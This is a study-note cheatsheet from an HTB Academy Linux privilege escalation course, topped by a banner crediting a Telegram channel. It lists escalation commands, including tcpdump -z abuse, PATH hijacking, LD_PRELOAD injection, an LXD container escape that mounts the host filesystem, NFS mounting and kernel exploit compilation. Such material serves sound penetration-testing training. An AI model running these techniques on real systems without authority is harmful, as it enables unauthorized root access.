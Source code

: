 Thanks To:

           _____      _               ____              _     _____       
    ____  / ____|    | |             |  _ \            | |   / ____|      
   / __ \| |    _   _| |__   ___ _ __| |_) | __ _ _ __ | | _| (___   __ _ 
  / / _` | |   | | | | '_ \ / _ \ '__|  _ < / _` | '_ \| |/ /\___ \ / _` |
 | | (_| | |___| |_| | |_) |  __/ |  | |_) | (_| | | | |   < ____) | (_| |
  \ \__,_|\_____\__, |_.__/ \___|_|  |____/ \__,_|_| |_|_|\_\_____/ \__,_|
   \____/        __/ |                                                    
                |___/                                                     


Find Us in : https://t.me/CyberBankSa


# Linux Privilege Escalation

Tags: #🧑‍🎓
Related to:
See also:
Previous: [[HTB Academy]]

### Cheatsheet

| **Command** | **Description** |
| --------------|-------------------|
| `ssh htb-student@<target IP>` | SSH to lab target |
| `ps aux \| grep root` | See processes running as root |
| `ps au` | See logged in users |
| `ls /home` | View user home directories |
| `ls -l ~/.ssh` | Check for SSH keys for current user |
| `history` | Check the current user's Bash history |
| `sudo -l` | Can the user run anything as another user? |
| `ls -la /etc/cron.daily` | Check for daily Cron jobs |
| `lsblk` | Check for unmounted file systems/drives |
| `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null` | Find world-writeable directories |
| `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null` | Find world-writeable files |
| `uname -a` | Check the Kernel version |
| `cat /etc/lsb-release ` | Check the OS version |
| `gcc kernel_expoit.c -o kernel_expoit` | Compile an exploit written in C |
| `screen -v` | Check the installed version of `Screen` |
| `./pspy64 -pf -i 1000` | View running processes with `pspy` |
| `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null` | Find binaries with the SUID bit set |
| `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null` | Find binaries with the SETGID bit set |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` | Priv esc with `tcpdump` |
| `echo $PATH` | Check the current user's PATH variable contents |
| `PATH=.:${PATH}` | Add a `.` to the beginning of the current user's PATH |
| `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null` | Search for config files |
| `ldd /bin/ls` | View the shared objects required by a binary |
| `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart` | Escalate privileges using `LD_PRELOAD` |
| `readelf -d payroll  \| grep PATH` | Check the RUNPATH of a binary |
| `gcc src.c -fPIC -shared -o /development/libshared.so` | Compiled a shared libary |
| `lxd init` | Start the LXD initialization process |
| `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine` | Import a local image |
| `lxc init alpine r00t -c security.privileged=true` | Start a privileged LXD container |
| `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true` | Mount the host file system in a container |
| `lxc start r00t` | Start the container |
| `showmount -e 10.129.2.12` | Show the NFS export list |
| `sudo mount -t nfs 10.129.2.12:/tmp /mnt` | Mount an NFS share locally |
| `tmux -S /shareds new -s debugsess` | Created a shared `tmux` session socket |
| `./lynis audit system` | Perform a system audit with `Lynis` |
